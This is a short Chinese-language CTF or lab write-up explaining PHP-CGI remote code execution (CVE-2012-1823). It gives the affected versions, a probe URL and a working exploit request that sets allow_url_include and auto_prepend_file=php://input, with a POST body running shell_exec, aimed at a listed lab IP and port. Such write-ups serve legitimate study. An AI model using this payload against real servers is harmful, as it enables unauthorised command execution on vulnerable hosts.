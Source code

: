 # phpcgi代码执行(CVE-2012-1823)
## 漏洞描述
CGI全称是“通用网关接口”(Common Gateway Interface)， 它可以让一个客户端，从网页浏览器向执行在Web服务器上的程序请求数据 这个漏洞简单来说，就是用户请求的querystring（querystring字面上的意思就是查询字符串，一般是对http请求所带的数据进行解析，这里也是只http请求中所带的数据）被作为了php-cgi的参数，最终导致了一系列结果

## 影响版本
php < 5.3.12 or php < 5.4.2

## 利用流程
1.访问地址：118.193.36.37:59452

![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/phpcgi%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C(CVE-2012-1823)/1.jpg)
2.访问此地址确认存在漏洞
```
/index.php/?-s

```
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/phpcgi%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C(CVE-2012-1823)/2.jpg)
3.burpsuite进行抓包 访问地址为：

/index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input

传的参数为

<?php echo shell_exec("ls /tmp");?>

![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/phpcgi%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C(CVE-2012-1823)/3.jpg)
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/phpcgi%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C(CVE-2012-1823)/5.jpg)
getflag
